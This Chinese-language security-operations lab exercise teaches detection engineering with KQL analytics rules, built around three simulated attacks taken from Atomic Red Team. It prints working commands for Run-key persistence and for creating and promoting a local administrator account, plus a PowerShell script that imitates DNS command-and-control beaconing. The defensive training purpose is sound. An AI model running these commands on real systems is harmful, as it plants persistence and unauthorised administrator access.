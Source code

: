 ﻿# 模块 7 - 实验室 1 - 练习 4 - 连接检测建模

### 任务 1：了解攻击

在此练习中你不会执行任何操作。  本练习将解释你将执行的攻击。

攻击模式基于开源项目： https://github.com/redcanaryco/atomic-red-team

**备注** 某些设置仅出于实验室目的在较小的时间范围内触发。

#### 攻击 1 - 通过注册表项添加实现的持久性攻击。

此攻击从命令提示符运行：

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻击 2 - 用户添加和特权提升

攻击将添加新建用户并将新用户提升到管理员组。  这会让攻击者能够使用有特权的其他帐户登录。

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 攻击 3 -DNS / C2 

此攻击将模拟命令和控制 (C2) 通信。

```PowerShell


param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)


$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        
        $x2 = 1

    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {

        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

        $x3 = 1
        
    }
    else
    {
        $x3 = $x3 + 1
    }


    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### 任务 2：了解检测建模。

本实验室中使用的攻击检测配置循环代表所有数据源，虽然你仅专注于两个特定数据源。

要构建检测，从构建 KQL 语句开始。  你将开始攻击主机，因此将使用代表数据开始构建 KQL 语句。

以下实验室在安装了 Defender for Endpoint Windows 主机和安装了 Sysmon 的 Windows 上运行相同的攻击。  构建检测时，你将看到每一种中数据规范化的差异。

有 KQL 语句后，即可创建分析规则。

触发规则并创建警报和事件后，调查以确定你是否提供了可帮助安全运营分析师进行调查的字段。

接下来，对分析规则进行其他更改。

# 转到练习 5
